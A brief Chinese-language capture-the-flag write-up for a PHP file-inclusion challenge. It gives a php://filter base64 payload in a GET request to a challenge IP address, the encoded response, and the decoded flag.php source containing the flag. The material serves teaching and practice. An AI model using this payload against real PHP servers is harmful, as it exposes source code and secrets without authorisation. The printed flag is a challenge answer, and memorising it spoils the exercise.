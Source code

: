 那么这道题的keypoint就在于使用php的文件包含漏洞，利用php伪协议来读取服务器上文件的内容

这里放一个参考链接：<https://blog.csdn.net/qq_41289254/article/details/81388343>

里面对于细节的解释还是蛮清楚的，希望你们都能看看，这道题其实挺简单的，但是主要要学习的是里面包含的知识点

payload：

```
GET
http://http://47.96.230.108:2334/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

得到一串base64编码的字符串

```
PGh0bWw+Cjxib2R5PgogICAgPGgyPkZsYWcgaXMgaGVyZTwvaDI+CjwvYm9keT4KPC9odG1sPgo8P3BocAogIC8vJGZsYWcgPSAia2FwMGt7TGZpX3cxdGhfUGhwX0YxbHRlcl8xc19GdW59IjsKPz4K
```

随便找个地方丢去解密，可以发现这就是flag.php的源码

```php+HTML
<html>
<body>
    <h2>Flag is here</h2>
</body>
</html>
<?php
  //$flag = "kap0k{Lfi_w1th_Php_F1lter_1s_Fun}";
?>
```